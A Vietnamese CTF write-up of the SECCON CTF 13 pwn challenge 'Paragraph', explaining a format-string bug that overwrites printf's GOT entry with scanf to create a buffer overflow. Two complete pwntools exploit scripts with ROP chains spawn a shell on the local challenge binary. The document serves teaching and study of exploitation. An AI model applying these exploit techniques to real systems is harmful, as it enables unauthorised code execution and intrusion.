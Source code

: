 ```yaml
--- 
title: SECCON CTF 13
date: 2025-03-06 00:00:00 +0800
categories: [writeup]
tags: [pwn,fsb]
author: "kuvee"
layout: post
---
```


mặc dù giải đã end khá lâu tuy nhiên dạo này bận ôn thi nên mình mới có time để ghi lại 


## Paragraph 

checksec : 

![image](https://hackmd.io/_uploads/Sy-wxNw7ye.png)

reverse :

ta được nhập 23 kí tự và có 1 bug fsb ở đây 

![image](https://hackmd.io/_uploads/rJS6yEP71g.png)

ta sẽ focus chính vào cách exploit bằng bug format string ở bài này , tuy nhiên nó lại chỉ cho ta nhập 23 kí tự.

- suy nghĩ đầu tiên có lẽ là cần overwrite GOT vì bài này RELRO 1 phần , vậy ta cần suy nghĩ ta sẽ phải overwrite thằng got nào và giá trị ta cần overwrite sẽ là gì?

- hmmm , vì bài này chỉ được phép xài fsb đúng 1 lần nên sẽ khá khó để leak libc xong rồi overwrite GOT bằng system ( thêm 1 điều nữa là đầu vào bị hạn chế nên cách này sẽ không thể) , 

ta sẽ thử quan sát : 

![image](https://hackmd.io/_uploads/SJjPWNDmJe.png)

địa chỉ libc của scanf và printf ở trường hợp này chỉ khác nhau 2 byte (thực tế sẽ là 2 byte rưỡi  = 12 bit) , vậy nếu ta ghi printf() thành scanf() thì sao ? 

![image](https://hackmd.io/_uploads/ByC3b4w7ye.png)


- tiếp theo sau đó nó sẽ dùng printf() với fmt là %s , vậy nếu nó là scanf() thì ta có 1 lỗi BOF ở đây luôn -> end

- còn 1 điều quan trọng nữa là bài này có lẽ cần phải bruteforce vì ta chỉ được input 23 kí tự , hoặc ta cũng có thể ghi thành PLT scanf() và cũng không cần bruteforce vì số byte của PLT lúc này khá ít (4198560) và nó sẽ không bị lỗi (cần sự trợ giúp của pwntools)


- vậy cách đầu tiên đơn giản là sẽ brute_force với tỉ lệ 1/16 , sau đó ta có được libc luôn và get_shell

script 

```python
from pwn import *

context.log_level = 'debug'

printf_got = 0x0404028
scanf_got = 0x0404030
scanf_plt = 0x4010A0
pop_rdi = 0x0000000000401283
ret = 0x000000000040101a

libc = ELF('./libc.so.6')
while True:
    e = ELF('./chall_patched')
    p = process(e.path)

    pay =b''
    pay += b"%32256c%8$hn%1$p"
    pay += b'A' * (0x10 - len(pay))
    pay += p64(e.got['printf'])[:-1]

    p.sendlineafter(b'"What is your name?", the black cat asked.\n', pay)
    try:

        p.recvn(32256)
        leak = int(p.recv(14).decode(), 16)
        lb = leak - 0x1b28c0
        system = lb + libc.sym['system']
        binsh = lb + list(libc.search(b'/bin/sh'))[0]
        log.critical(f"leak: {hex(leak)}")
        log.critical(f"lb: {hex(lb)}")
        log.critical(f"system: {hex(system)}")
        log.critical(f"binsh: {hex(binsh)}")
        p.recv()
        pay = b' answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted '
        pay += b'A' * 0x28
        pay += p64(ret)
        pay += p64(pop_rdi)
        pay += p64(binsh)
        pay += p64(system)
        pay += b' warmly.sdf\n'
        p.sendline(pay)

        p.sendline(b'id')
        tmp = p.recv()
        print(tmp)
        break
    except Exception as e:
        print(e)
        p.close()
        continue

p.interactive()
```


cách thứ 2 là ta sẽ thay đổi ```got``` của printf thành ```scanf_plt``` , ta sẽ dùng ```pwntools``` để làm việc này và không cần brute_foce , sau đó ta có thể dùng ROP để leak libc ....  , ở đây mình sẽ dùng ```scanf``` để ghi ```/bin/sh``` vô ```bss``` và cùng lúc ```leak_libc``` , cuối cùng là setup cho one_gadget 

script 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall',checksec=False)
io = process()
libc = ELF('./libc.so.6')
#gdb.attach(io,gdbscript='''

 #       b*0x00000000004011fa
  #      b*0x000000000040121D
    #       ''')

one_gadget = [0x583dc,0x583e3,0xef4ce,0xef52b]
log.info(f"one_gadget {hex(one_gadget[3])}")

writes = {
    exe.got.printf: p64(exe.sym.__isoc99_scanf)
}

payload = fmtstr_payload(6, writes, write_size='int')  # generate most
payload = b'%4198560d%8$llna(@@\x00\x00\x00\x00'  # <-- same as pwntools but removed some null bytes
print(len(payload))
input()
io.sendlineafter(b'"What is your name?", the black cat asked.\n', payload)

p = b"A" * 40
p += p64(0x401281)  # 0x401281: pop rsi ; pop r15 ; ret ;
p += p64(0x404150)  # .bss
p += p64(0)
p += p64(0x401283)  # 0x401283: pop rdi ; ret ;
p += p64(0x403078)  # %s warmly.\n
p += p64(0x401060)  # scanf
p += p64(0x401283)  # 0x401283: pop rdi ; ret ;
p += p64(0x404050)  # 0x404050 <stdout@@GLIBC_2.2.5>:   0x00007d0f7ba045c0
p += p64(0x401030)  # puts

p += p64(0x401196) # main



io.sendline(
    b' answered, a bit confused.\n"Welcome to SECCON," the cat greeted '
    + p
    + b" warmly.\n\n"
)
io.sendline(b"/bin/sh #" + b" warmly.\n\n")

res = io.recvline()[-7:].strip()
print(res)
leakedlibc = u64(res.ljust(8, b"\x00"))
log.info(f"leaked libc: {hex(leakedlibc)}")

libc.address = leakedlibc - libc.sym["_IO_2_1_stdout_"]
log.info(f"libc base: {hex(libc.address)}")

p = b"A" * 40

"""
0x583e3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

"""
p += p64(libc.address + 0x10E243)  # pop rcx ; ret
p += p64(0)
p += p64(libc.address + 0x5ACE9)  # pop rbx ; ret
p += p64(0)
p += p64(libc.address + 0x583E3) # posix_spawn

io.recvuntil(b"asked.\n")
input("input")
io.sendline(
    b' answered, a bit confused.\n"Welcome to SECCON," the cat greeted '
    + p
    + b" warmly.\n\n"
)


io.interactive()
```
